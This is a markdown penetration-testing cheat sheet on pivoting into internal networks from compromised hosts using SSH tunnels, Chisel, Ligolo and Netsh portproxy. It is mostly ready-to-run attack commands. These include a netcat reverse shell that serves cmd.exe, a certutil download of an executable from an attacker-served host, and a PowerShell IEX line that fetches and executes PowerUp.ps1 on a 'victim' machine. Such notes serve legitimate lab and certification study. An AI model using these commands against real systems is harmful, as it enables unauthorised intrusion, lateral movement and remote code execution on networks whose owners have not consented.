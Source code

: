 # Pivoting

## Personal Thought:
- Try running LinPEAS , WinPEAS and other tools via Pivoted tunnel w Proxychains.

## Pivoting using SSH

[Proxychains w/ SSH tutorial](https://www.youtube.com/watch?v=pdgBU9MDAwE&t=40650s)
### Dynamic Port Forwarding
- Here we use SSH dynamic port forwarding with proxychains to pivot into the internal network.
In the attacker box:
```
sudo vim /etc/proxychains4.conf
```
- Add **socks 127.0.0.1 9050** on the last line
```
ssh -D 9050 <username>@<external-ip>
```
- Here port 9050 is configured in the proxychains4.conf file.
```
proxychains nmap -sC -sV <internal-ip-range/ips>
proxychains <tool>
```

### Local Port Forwarding
- Inorder to access certain port on a victim machine through SSH tunneling we use the L flag, as follows:
```
ssh -L 1234:localhost:<victim-port> <victim>@<ip>
```

### Pivoting multimachines using SSH jump
- Inorder to access a subnet from a compromised host which has more than 1 interface, we can use SSH jump method inorder to access the inner subnet.
- Note inorder for this, we have to have SSH credentials of both the machines
```
ssh -J <victim1>@<victim1-ip> -D 127.0.0.1:9050 <victim2>@<victim2-ip>
```

## Pivoting using Chisel
[Tutorial #1 on chisel: Accessing victim#1's internal network](https://youtu.be/dIqoULXmhXg&t=682s)
Attacker:
```
sudo vim /etc/proxychains4.conf
socks5 127.0.0.1 1080
```
```
chisel server --port <port> --reverse -v
```

Victim:
```
chisel client <attacker-ip>:<attacker-port> R:socks
```

Attacker:
```
proxychains <tool>
proxychains nmap -sT -Pn -n --top-ports <victim-internal-ip> 
```


[Tutorial #2 on chisel: Accessing victim#2's port from the internal network by pivoting from victim#1](https://www.youtube.com/watch?v=B3GxYyGFYmQ&t=985s)

Attacker:
```
chisel server --port <port> --reverse -v
```
Victim #1:
```
# port forwards victim#2's port accessible by victim#1 to the attacker machine
chisel client <attacker-ip>:<attacker-port> R:<victim2-ip>:<victim2-port>
```
Attacker:
```
nmap -sC -sV -p<port> localhost
```

[Tutorial #3 on chisel w/ Netsh: Accessing victim#2's subnet by pivoting from victim#1](https://www.youtube.com/watch?v=B3GxYyGFYmQ&t=1588s)
This attack utilizes socks

Attacker:
```
sudo vim /etc/proxychains4.conf
socks5 127.0.0.1 1080
```
```
chisel server --port 8002 --reverse -v --socks5
```
Victim #1 host:
```
# Note this requires admin privileges or you can use chisel
netsh instance portproxy add v4tov4 listenport=8002 listenaddress=0.0.0.0 connectport=8002 connectaddress=<attacker-ip>
```
Victim #2 host:
```
chisel client <victim1-ip>:8002 R:socks
```
Attacker:
```
proxychains <tool>
proxychains nmap <victim2-internal-ip> -sT -sV
```


## Pivoting using Ligolo
[Setting Intial Proxy w/ Victim#1 using Ligolo](https://youtu.be/DM1B8S80EvQ)

Attacker:
```
# Initializing ligolo for the first time:
sudo ip tuntap add user <username> mode tun ligolo
sudo ip link set ligolo up
```
```
./proxy -selfcert
```

Victim:
```
.\ligolo-agent.exe -connect <attacker-ip>:<ligolo-port> -ignore-cert 
```

Attacker:
```
# In the ligolo interface:
session
```

```
# Adding pivot, in the attacker terminal (not ligolo interface):
sudo ip route add <victim-ip-range> dev ligolo
ip route list 
```

```
# Ligolo Interface:
session
start
```

```
# In attacker terminal:
<tool> <victim-internal-ip>
crackmapexec smb <internal-ip-range>
```

[Getting reverse shells using ligolo](https://youtu.be/DM1B8S80EvQ&t=570s)

Attacker:
```
# In attacker terminal:
rlwrap nc -nvlp <port>
```

```
# In ligolo interface:
listener_add --addr 0.0.0.0:<victim1-listening-port> --to 127.0.0.1:<attacker-listening-port>
listener_list
```


Victim #2:
```
nc.exe <victim1-ip> <victim1-listening-port> -e cmd.exe
```

[Transfering Files using ligolo](https://youtu.be/DM1B8S80EvQ&t=872s)

Attacker:
```
# In ligolo interface session victim#1:
listener_add --addr 0.0.0.0:<victim1-listening-port> --to 127.0.0.1:<attacker-serving-port>
listener_list
```
```
# In attacker terminal:
python3 -m http.server <attacker-serving-port>
```

Victim #2:
```
certutil -f -urlcache -split http://<victim#1-ip>:<victim-listening-port>/file.exe
```



## Transfering files using Netsh as pivot
[Pivoting Internal Machines Tutorial](https://www.youtube.com/watch?v=B3GxYyGFYmQ&t=1335s)

Attacker Box:
```
cp /opt/powerview/powerup.ps1 .
python3 -m http.server 8001
```
Victim #1 host:
```
# Note this requires admin privileges or you can use chisel
netsh instance portproxy add v4tov4 listenport=8001 listenaddress=0.0.0.0 connectport=8001 connectaddress=<attacker-ip>
```

Victim #2 host:
```
powershell -c 'IEX(New-Object Net.WebClient).downloadString('http://<victim1-ip>:8001/powerup.ps1')
```


